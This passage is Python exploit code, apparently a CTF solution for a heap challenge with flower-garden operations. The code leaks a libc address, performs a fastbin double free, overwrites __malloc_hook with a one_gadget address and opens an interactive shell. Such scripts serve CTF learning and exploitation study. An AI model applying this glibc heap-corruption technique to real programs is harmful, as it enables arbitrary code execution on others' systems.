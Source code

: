 ```py
  p.recvuntil (b'A' * 8)
  leak_libc = u64 (p.recv (6) + b'\x00\x00')
  print ("The main arena is: ", hex (leak_libc))
  libc.address = leak_libc - libc.symbols['main_arena'] - 88
  print ("The address of libc is : ", hex (libc.address))
  print ("The milestone ---------------------------------------------------------------------------------------------------------------------")
  remove_flower (p, b'0')
  remove_flower (p, b'1')
  clean_garden (p)

  add_flower (p, b'104', b'ndd', b'ndd')
  add_flower (p, b'104', b'ndd1', b'ndd1')
  remove_flower (p, b'0')
  remove_flower (p, b'1')
  remove_flower (p, b'0')


  add_flower (p, b'104', p64 (libc.symbols['__malloc_hook'] - 0x23), b'AAAA')
  add_flower (p, b'104', b'AAAA', b'AAAA')
  add_flower (p, b'104', b'AAAA', b'AAAA')
  add_flower (p, b'104', b'\x00' * 0x13 + p64 (libc.address + 0xef6c4), b'ndd')

  remove_flower (p, b'0')
  remove_flower (p, b'0') 

  # p.sendafter (b'Your choice : ', b'1')

  p.interactive()


if __name__ == "__main__":
  main()
```
